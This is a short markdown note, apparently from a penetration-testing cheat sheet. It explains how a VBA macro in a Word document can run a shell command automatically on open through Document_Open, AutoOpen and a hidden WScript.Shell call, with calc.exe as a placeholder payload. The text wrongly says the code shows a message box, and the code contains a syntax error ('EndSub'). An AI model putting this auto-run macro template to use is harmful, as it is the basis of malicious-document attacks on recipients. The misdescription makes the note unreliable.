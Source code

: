 # Visuabl Basic Applications
Microsoft programming languages for applicationss such as Word, Excel, PowerPoint, etc.

A common use for VB is when building macros inside documents.

Create a macro called `TestMacro` and add the following code to open a message box automatically when a document is opened:

```
Sub Document_Open()
    TestMacro
EndSub

Sub AutoOpen()
    TestMacro
EndSub

Sub TestMacro()
    Dim payload as String
    payload = "calc.exe"
    CreateObject("WScript.Shell").Run payload,0
End Sub
```
The document must be saved as a `.doc` or `.docm`

